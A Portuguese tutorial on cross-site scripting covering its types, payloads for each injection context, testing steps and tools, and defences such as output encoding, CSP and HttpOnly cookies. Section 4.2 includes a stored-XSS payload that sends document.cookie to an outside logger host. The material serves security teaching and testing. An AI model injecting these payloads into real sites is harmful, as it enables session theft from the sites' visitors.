 # Ataques XSS (Cross-Site Scripting)

## 1. O que é XSS?

**Cross-Site Scripting (XSS)** é uma vulnerabilidade que permite a um invasor injetar código JavaScript malicioso em páginas visitadas por outros usuários. Quando o navegador da vítima executa esse código, o atacante pode:
- Roubar cookies ou tokens de sessão  
- Redirecionar para sites de phishing  
- Registrar teclas digitadas (keylogging)  
- Modificar o conteúdo da página em tempo real  

---

## 2. Tipos de XSS

1. **Refletido (Reflected XSS)**  
   - O payload faz parte da URL ou de um parâmetro HTTP (GET/POST) e é “refletido” na resposta sem sanitização.  
   - Exemplo de URL vulnerável:  
     ```
     https://exemplo.com/busca?q=<script>alert(1)</script>
     ```

2. **Armazenado (Stored XSS)**  
   - O script malicioso é salvo no servidor (em banco de dados, fórum, comentários) e servido a todos os visitantes.  
   - Muito perigoso: afeta múltiplos usuários sem interação direta.

3. **DOM-based XSS**  
   - A injeção ocorre inteiramente no navegador, por meio de manipulação insegura do DOM em código JavaScript.  
   - Exemplo:  
     ```js
     // vulnerável

     document.getElementById('msg').innerHTML = location.hash;
     ```
     Se a URL for `https://exemplo.com/#<script>alert(1)</script>`, o payload é executado.

---

## 3. Contextos de Injeção

Dependendo de onde o payload é colocado, varia a sintaxe:

| Contexto             | Exemplo de payload                              |
|----------------------|--------------------------------------------------|
| HTML                 | `<script>alert(1)</script>`                     |
| Atributo HTML        | `"><img src=x onerror=alert(1)>`                |
| JavaScript inline    | `";alert(1);//`                                  |
| URL                  | `javascript:alert(1)`                            |
| CSS                  | `style="background:url(javascript:alert(1))"`   |

---

## 4. Exemplos Práticos

### 4.1 Reflected XSS

1. Identifique um parâmetro refletido:
```

GET /search?q=teste HTTP/1.1
Host: alvo.com

```
2. Injete payload:
```

/search?q=<script>alert('XSS')</script>

```
3. Se o alerta disparar, há vulnerabilidade.

### 4.2 Stored XSS

1. Acesse a área de comentários ou perfil de usuário.  
2. Insira:

```html
<script>fetch('https://meu-logger.com/?cookie='+document.cookie)</script>
```

3. Verifique se o script é salvo e executado ao visitar a página.

### 4.3 DOM-based XSS

1. Localize código JavaScript que usa `innerHTML`, `document.write()`, `eval()`, etc.
2. Abuse de valores controlados pelo usuário (hash, querystring, localStorage).

---

## 5. Testando e Explorando

* **Navegador**: usar console para testar injeções rápidas.
* **Interceptadores** (Burp Suite, OWASP ZAP): modificar parâmetros em tempo real.
* **Ferramentas automáticas**:

  * `XSStrike`
  * `XSSer`
  * `Dalfox`

Exemplo com Burp Intruder:

1. Defina a posição de injeção (`§` antes e depois do parâmetro).
2. Carregue wordlist de payloads (ex.: [OWASP XSS Payloads](https://github.com/payloadbox/xss-payload-list)).
3. Dispare o ataque e analise respostas que contenham tags `<script>`.

---

## 6. Prevenção

1. **Validação de entrada**

   * Filtrar ou rejeitar caracteres perigosos (`<`, `>`, `"`, `'`).

2. **Codificação de saída**

   * Escapar valores antes de inseri-los em HTML, atributos, JS, CSS ou URLs.

3. **CSP (Content Security Policy)**

   * Restrinja fontes de scripts com cabeçalhos como

     ```
     Content-Security-Policy: default-src 'self'; script-src 'self'
     ```

4. **Flags de Cookie**

   * `HttpOnly` impede acesso a cookies via JavaScript.
   * `Secure` garante envio somente em HTTPS.

5. **Frameworks seguros**

   * Utilize funções de template que façam escaping automático (React, Django, Rails, etc.).

---

> **Referências**
>
> * OWASP XSS Prevention Cheat Sheet:
>   [https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
> * OWASP Testing Guide – XSS:
>   [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/01-Testing\_for\_Reflected\_Cross\_Site\_Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)

